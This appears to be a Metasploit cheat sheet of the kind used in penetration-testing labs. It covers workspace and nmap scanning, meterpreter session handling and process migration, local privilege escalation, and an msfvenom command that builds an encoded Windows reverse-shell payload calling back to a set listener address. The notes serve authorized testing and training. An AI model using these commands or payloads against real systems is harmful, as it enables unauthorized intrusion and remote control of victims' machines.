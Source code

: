 #### Metasploit

```
# Start Metasploit
msfdb run

# Interact with workspaces
workspace

# For help
workspace -h

# Scan target with nmap
db_nmap -A <target ip>

```
#### Access a backgrounded meterpreter session
```
sessions -i <number>
```

#### Check Architecture and Meterpreter Version
```
sysinfo
```

#### Migrate from 32-bit to 64-bit Meterpreter session
```
# From your meterpreter session
ps

# Migrate into an X64 process such as explorer.exe
migrate <PID #>
```

#### Privesc with a Meterpreter session
```
# Background your low-priv meterpreter session
background

# local_exploit_suggester
use multi/recon/local_exploit_suggester

# show options
set session #
exploit
```

#### Creating payloads with msfvenom
```
# Windows shell with bad characters and alpha mixed coding in C format
msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.49.163 LPORT=80 -e x86/alpha_mixed -f c
```
